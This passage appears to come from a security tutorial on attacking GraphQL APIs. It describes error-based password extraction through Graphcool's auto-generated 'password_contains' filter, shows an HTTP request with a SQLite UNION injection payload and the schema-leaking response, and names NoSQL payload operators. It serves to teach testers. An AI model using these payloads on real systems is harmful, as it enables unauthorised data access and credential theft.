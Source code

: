 So Graphcool, is a framework which enhances the GraphQL schema. It adds permissions, database mapping, subscriptions and more. However, the Graphcool, if configured, it can add more fields, which can be field filters.

Let’s take an example. The previously discussed data type “User” could be altered by the Graphcool to include the following field “password_contains”. This is a feature which automatically adds a filter to all – or some – fields of the data types. So for the particular field, such as the password, it works as an error-based injection. Therefore, if you put “a” it returns nothing or permission denied. But this is error-based injection so that way we can retrieve the full value (i.e the password).
Database Injections

The GraphQL is nothing more than an API interface. It can help mapping the parameters with internal structures and data. Therefore, standard database injections exists – such as an SQL Injection.

SQLite Injection Example:

POST /graphql HTTP/1.1

Host: test.local

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

​

​

{"variables":{

"pid":"0 union select 1,2,sql FROM sqlite_master limit 1,2"

},

"query":"query partition($pid:ID!) {\n  partition(id: $pid) {\n    id\n    name\n    description\n    __typename\n  }\n}\n"}

Response:

{

    "data": {

        "project": {

            "__typename": "Partition", 

            "description": "CREATE TABLE partition (\n  id INTEGER PRIMARY KEY,\n  name TEXT,\n  description TEXT\n)", 

            "name": "2", 

            "id": "1"

        }

    }

}

Keep in mind that the majority of GraphQL implementations are integrated with NoSQL databases, therefore you may want to use the appropriate payloads ($regex, $ne etc..).
GraphQL Denial-of-Service

